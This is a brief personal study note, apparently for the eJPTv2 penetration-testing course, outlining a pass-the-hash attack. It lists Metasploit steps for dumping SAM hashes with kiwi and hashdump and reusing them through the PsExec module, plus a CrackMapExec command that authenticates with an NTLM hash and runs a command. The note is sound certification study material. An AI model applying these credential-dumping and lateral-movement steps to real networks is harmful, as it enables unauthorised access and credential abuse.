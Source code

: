 Tags: #template 
Related to: #note-taking, #notes
See also: 
Index: [[📁EJPTv2 - INDEX]]   

#### Summary
Add a brief overview of what the content is

#### Content
What can we do with the hashes

Pass the hash attack - use hashes to authenticate legitimately via smb

tools
Metasploit PsExec module 
Crackmapexec

Steps

metasploit
exploit and gain access to the target
escalate privs to nt authority sys
use kiwi - lasadump_sam
get ntlmhash
use hashdump to get LM hash
u get o/p in fomrat username:sid:LMhash:NThash(NTLM)
use psexec authenticate rce module 
ser SMBuser username
set SMBPass LMhash:NThash

crackmapexec

crackmapexec smb ip -u username -H "ntlm hash"  -x "command"

###### References  (optional )